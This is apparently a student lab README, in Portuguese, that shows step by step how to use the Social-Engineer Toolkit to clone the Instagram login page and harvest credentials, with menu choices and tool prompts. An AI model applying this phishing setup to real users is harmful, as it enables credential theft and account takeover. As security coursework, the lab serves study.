

# Laboratorio para Conclusao de Modulo
Este laboratorio foi adaptado para captura de credenciais de outra rede social, conforme
a necessidade do atacante.

## Ferramentas 
- Kali Linux - Imagem em container Docker virtualizada no VMWare Workstation
    (Network Adapter foi configurado como NAT)
- setoolkit

## Parametros de Configuracao da Ferramenta
- Root Terminal Emulator
- Comandos:
    - setoolkit
    - 1 Social-Engineering Attacks
    - 2 Website Attack Vectors
    - 3 Metasploit Browser Exploit Method
    - 2 Site Cloner

Ataque setado: 

set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.80.128]: 
[-] SET supports both HTTP and HTTPS
[-] Example: http://www.thisisafakesite.com
set:webattack> Enter the url to clone: http://instagram.com

Captura das Credenciais:

